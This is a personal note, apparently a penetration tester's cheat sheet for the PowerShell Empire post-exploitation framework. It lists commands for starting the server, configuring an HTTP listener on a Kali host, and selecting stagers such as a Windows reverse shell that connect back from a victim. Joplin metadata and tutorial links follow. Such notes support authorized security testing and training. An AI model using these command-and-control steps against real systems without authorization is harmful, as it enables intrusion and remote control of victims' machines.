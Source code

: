 General Info

powershell-empire -h

powershell-empire server - Launch the Server

powershell-empire client - Launch the CLI Client

# Listeners

Setup Listeners

> listeners
> 
> userlistener http # or other protocols available
> 
> set Host &lt;Kali IP&gt;
> 
> set BindIP &lt;Kali IP&gt;
> 
> set Port 1335
> 
> execute

To kill the listener

> main
> 
> listeners
> 
> kill &lt;listenerName&gt;

# Stages

Setup Stagers - small pieces of code generated that are executed on victim and connect back to listener (Staged payloads)

> usestager &lt;stager&gt; # use TAB to complete
> 
> usestager multi/launcher OR windows/reverseshell

# Agents

To be interacted once there is a connection

https://hackmag.com/security/powershell-empire/

https://null-byte.wonderhowto.com/how-to/use-powershell-empire-getting-started-with-post-exploitation-windows-hosts-0178664/

https://ethicalhackingguru.com/how-to-use-powershell-empire-3-the-powershell-empire-3-tutorial/

id: 584f4b618f79472dbb0e0971a5a33dff
parent_id: 7ea9f93af7fe4ac297141e6eb8e13e9c
created_time: 2022-01-17T09:23:13.230Z
updated_time: 2022-01-31T04:29:08.097Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-17T09:23:13.230Z
user_updated_time: 2022-01-31T04:29:08.097Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1
